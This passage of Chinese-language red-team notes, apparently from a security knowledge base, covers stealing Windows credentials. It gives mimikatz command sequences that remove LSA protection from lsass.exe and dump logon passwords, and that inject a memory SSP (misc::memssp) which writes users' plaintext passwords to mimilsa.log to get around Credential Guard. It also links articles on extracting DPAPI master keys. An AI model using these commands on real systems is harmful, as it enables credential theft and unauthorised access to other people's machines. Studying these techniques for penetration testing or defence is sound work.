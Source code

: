 
### Bypass LSA Protection

1. 从磁盘上的 SAM 读取凭据
2. mimikatz 其中的 mimidrv.sys 驱动程序，可从 lsass.exe 进程中删除 LSA 保护，成功 pypass LSA Protection。
    ```
    privilege::debug
    !+
    !processprotect /process:lsass.exe /remove
    sekurlsa::logonpasswords
    ```

    ![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/6.png)

---

### Bypass Credential Guard

1. 从磁盘上的 SAM 读取凭据
2. SSP 是参与用户身份验证的 Microsoft 软件包，如在用户登录时被调用，并接收该用户的凭据。在系统启动时 SSP 会被加载到进程 lsass.exe 中。,Mimikatz 可通过内存安装自定义的 ssp，修改 lsass 进程的内存，实现从 lsass 进程中提取凭据，mimikatz 执行 misc::memssp 后，如果再输入了新的凭据 (如用户锁屏后重新登录)，将会在 c:\windows\system32 下生成文件 mimilsa.log，其中保存有用户明文密码。
    ```
    privilege::debug
    misc::memssp
    ```

---

### DPAPI

由于功能需求，Dpapi 采用的加密类型为对称加密，所以只要找到了密钥，就能解开物理存储的加密信息了。

**相关文章**
- [通过Dpapi获取Windows身份凭证](https://www.lz1y.cn/2019/10/08/%E9%80%9A%E8%BF%87Dpapi%E8%8E%B7%E5%8F%96Windows%E8%BA%AB%E4%BB%BD%E5%87%AD%E8%AF%81/)
- [渗透技巧——获取Windows系统下DPAPI中的MasterKey](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E8%8E%B7%E5%8F%96Windows%E7%B3%BB%E7%BB%9F%E4%B8%8BDPAPI%E4%B8%AD%E7%9A%84MasterKey/)
